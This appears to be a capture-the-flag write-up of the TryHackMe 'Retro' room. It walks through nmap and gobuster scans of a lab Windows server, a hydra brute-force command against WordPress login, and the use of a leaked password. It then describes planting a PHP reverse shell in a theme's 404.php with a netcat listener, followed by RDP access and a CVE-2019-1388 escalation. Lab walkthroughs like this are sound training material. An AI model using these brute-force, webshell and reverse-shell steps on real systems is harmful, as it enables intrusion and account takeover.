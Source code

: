 # Retro
[Play](https://tryhackme.com/room/retro)

## Recon
Let's start with the nmap scan and run gobuster in parallel, since the questions hint on it.

Looking at the website, it looks like a windows server. Fuck I suck at those rn. This hard challenge has become insane for me :P

```
kali㉿kali)-[~]
└─$ nmap -sC -sV -A 10.10.96.15
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-07 21:46 EDT
Nmap scan report for 10.10.96.15
Host is up (0.26s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2021-05-08T01:47:19+00:00
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2021-05-07T01:35:04
|_Not valid after:  2021-11-06T01:35:04
|_ssl-date: 2021-05-08T01:47:23+00:00; +2s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.64 seconds
```


Gobuster returned empty on the dirb common list. One other thing I want to try out is check for subdomains.


Using the command,

```
┌──(kali㉿kali)-[/tmp]
└─$ sudo wfuzz -Z -c -f sub-fighter -w /usr/share/amass/wordlists/subdomains-top1mil-5000.txt -u 10.10.96.15 -H "Host: FUZZ.10.10.96.16" --hc 200,400
```


we found out ... nothing. So, anyways, I looked at the hint, and they said ... run it on dirbuster medium list.

So I found out one directory named retro. Should have tried it the first thing lmao. Anyways, since they mention "the" directory, I'll stop the scan and we'll see what it holds for us.

```
kali㉿kali)-[~]
└─$ gobuster dir -u 10.10.96.15 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.96.15
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/05/07 22:09:35 Starting gobuster in directory enumeration mode
===============================================================
/retro                (Status: 301) [Size: 148] [--> http://10.10.96.15/retro/]
Progress: 13495 / 220561 (6.12%)                                              ^C
[!] Keyboard interrupt detected, terminating.

===============================================================
2021/05/07 22:16:22 Finished
===============================================================
```

![](https://i.imgur.com/Cd3WvVT.png)

Okay. Looking around, we have a login page, which looks like its a wordpress website. Plus, we see that even the "Hello World" post in the start (at the bottom) is made by Wade. This means we can try bruteforcing wp-login using hydra. One another path could be uploading a reverse shell, since the first post has a link where we can upload stuff. However, it just redirects to an external website. We can come back to it if hydra does not work out.

NOTE: wp-logins are apparently case sensitive.

![](https://i.imgur.com/93vX86A.png)

Okay. Let's fire up burp, and using the intercept option, we have 

```
POST /retro/wp-login.php HTTP/1.1
Host: 10.10.96.15
Content-Length: 82
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.96.15
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.96.15/retro/wp-login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: wordpress_test_cookie=WP+Cookie+check
Connection: close

log=Wade&pwd=brrr&wp-submit=Log+In&redirect_to=%2Fretro%2Fwp-admin%2F&testcookie=1
```

As the POST request. Also, very interesting - look at the error message!

![](https://i.imgur.com/uHZ4R3z.png)

Now we'll do Hydra goes brrr.

From https://github.com/gnebbia/hydra_notes, I found the following,
```
hydra -L lists/usrname.txt -P lists/pass.txt localhost -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
# now we check for success by using S=Location, since wordpress uses a Location
# header to redirect the user, we can think about S as a sort of grep applied to
# the HTTP response
```

Our command thus becomes 
```
hydra -l Wade -P /usr/share/wordlists/rockyou.txt 10.10.96.15 http-post-form "/retro/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=%2Fretro%2Fwp-admin%2F&testcookie=1:S=Location"
```

Okay so meanwhile, I had a look at the hint to see if I am on the right track. The hint mentions the presence of sensitive information. Is it just the username? or maybe, I can look at the posts while hydra attacks.

Oh my god. LMAO.

Okok so, I was looking around, went to archives, nothing interesting. But, I clicked on Wade and looked at some other things, "Entries RSS", "Comments RSS" looked interesting. So, the Entries was too filled up so I looked at comments first.

And damn there was something off about the way the sentence is framed. Have a look:

![](https://i.imgur.com/tIro30h.png)

"Leaving myself a note here just in case I forget how to spell it: parzival"

Now, ofcourse, this could be about ready player one, whose protagonist is this guy - and the story matches too XD

So, I tried logging in - no harm right, Hydra already running. And then I see this:

![](https://i.imgur.com/4ntp2fG.png)

Ey voila! Stopped Hydra. We have some exploits for wordpress, in the 404 pages. Go to Appearance -> Theme Editor -> 404.php. We'll put a tasty reverse shell here and then go to an invalid page on the website - thus redirecting us to 404 and we are set.

Have a netcat listener setup on 1337 or a port of your choice: `nc -lvnp 1337`

Goto `https://www.revshells.com/` and get the `PHP PentestMonkey` code with your ip and port. Now, let's comment out the 404.php WP gave us, and put this code.

Go to `http://10.10.96.15/retro/index.php/yougongetpwned` 

...

"WARNING: Failed to daemonise. This is quite common and not fatal. Successfully opened reverse shell to 10.8.150.214:1337 ERROR: Shell process terminated"

Okay. Very interesting. I have never seen this shit before, so I looked it up: `https://www.reddit.com/r/oscp/comments/elh0ai/htb_bashed_failed_to_daemonise/` mentions how this may be a firewall issue. One redditor suggests using the port 443, so let's try that.

... same error.

I tried a bunch more common ports, but this wont budge. 


Apparently this was a trap :D

Note that we have another port 3389 having ms-wbt-server. Let's try going in using Remmina. We already have credentials.

![](https://i.imgur.com/fpmQZPT.png)

Very nice. User flag in our hands now!



![](https://i.imgur.com/O0VfOJT.png)

bookmark + history

https://nvd.nist.gov/vuln/detail/CVE-2019-1388

found this youtube video https://www.youtube.com/watch?v=3BQKpPNlTSo

![](https://i.imgur.com/O0VfOJT.png)

![](https://i.imgur.com/MV8glyU.png)

![](https://i.imgur.com/Rp9leKG.png)

![](https://i.imgur.com/fBHEPQN.png)

![](https://i.imgur.com/7GrrZND.png)

![](https://i.imgur.com/G0GPvAo.png)

![](https://i.imgur.com/ZSvFkZI.png)

![](https://i.imgur.com/gzjHCUL.png)
